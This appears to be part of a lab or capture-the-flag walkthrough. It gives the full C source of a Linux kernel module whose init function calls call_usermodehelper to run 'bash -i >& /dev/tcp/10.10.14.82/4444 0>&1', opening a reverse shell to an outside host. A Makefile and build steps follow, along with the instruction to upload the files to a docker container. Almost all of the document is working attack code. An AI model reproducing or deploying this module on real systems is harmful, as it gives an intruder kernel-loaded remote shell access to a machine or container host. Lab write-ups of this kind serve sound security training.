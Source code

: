 ```c
#include <linux/kmod.h>
#include <linux/module.h>

MODULE_LICENSE("GPL");
MODULE_AUTHOR("AttackDefense");
MODULE_DESCRIPTION("LKM reverse shell module");
MODULE_VERSION("1.0");

char* argv[] = {
    "/bin/bash",
    "-c",
    "bash -i >& /dev/tcp/10.10.14.82/4444 0>&1",
    NULL
};

static char* envp[] = {
    "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin",
    NULL
};

// call_usermodehelper function is used to create user mode processes from kernel space
static int __init reverse_shell_init(void) {
    return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}

static void __exit reverse_shell_exit(void) {
    printk(KERN_INFO "Exiting\n");
}

module_init(reverse_shell_init);
module_exit(reverse_shell_exit);

```

- Create the **Makefile**:
(The blank char before each make word in the Makefile must be a **tab**, not spaces!)

```bash
obj-m += reverse-shell.o

all:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules

clean:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean
```

- Upload both to the docker container

- Compile the kernel module:

```bash
make

```
